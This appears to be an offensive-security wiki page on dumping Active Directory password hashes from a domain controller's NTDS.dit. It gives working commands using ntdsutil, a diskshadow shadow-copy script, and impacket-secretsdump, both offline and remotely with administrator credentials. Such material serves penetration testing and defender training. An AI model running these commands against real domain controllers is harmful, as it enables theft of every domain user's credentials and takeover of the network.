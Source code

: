 ```yaml
---
description: Dumping NTDS.dit with Active Directory users hashes
---
```


# Dumping Domain Controller Hashes Locally and Remotely

## No Credentials - ntdsutil

If you have no credentials, but you have access to the DC, it's possible to dump the ntds.dit using a lolbin ntdsutil.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endtab %}
{% endtabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes offline with impacket:

{% tabs %}
{% tab title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## No Credentials - diskshadow

On Windows Server 2008+, we can use diskshadow to grab the ntdis.dit.

Create a shadowdisk.exe script instructing to create a new shadow disk copy of the disk C \(where ntds.dit is located in our case\) and expose it as drive Z:\

{% code title="shadow.txt" %}
```erlang
set context persistent nowriters
set metadata c:\exfil\metadata.cab
add volume c: alias trophy
create
expose %someAlias% z:
```
{% endcode %}

...and now execute the following:

```erlang
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```

Below shows the ntds.dit got etracted and placed into our c:\exfil folder:

![](../../.gitbook/assets/image%20%28392%29.png)

Inside interactive diskshadow utility, clean up the shadow volume:

```text
diskshadow.exe
    > delete shadows volume trophy
    > reset
```

## With Credentials

If you have credentials for an account that can log on to the DC, it's possible to dump hashes from NTDS.dit remotely via RPC protocol with impacket:

```text
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

![](../../.gitbook/assets/image%20%28177%29.png)

## References

{% embed url="https://adsecurity.org/?p=2362" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/" %}

{% embed url="https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/" %}

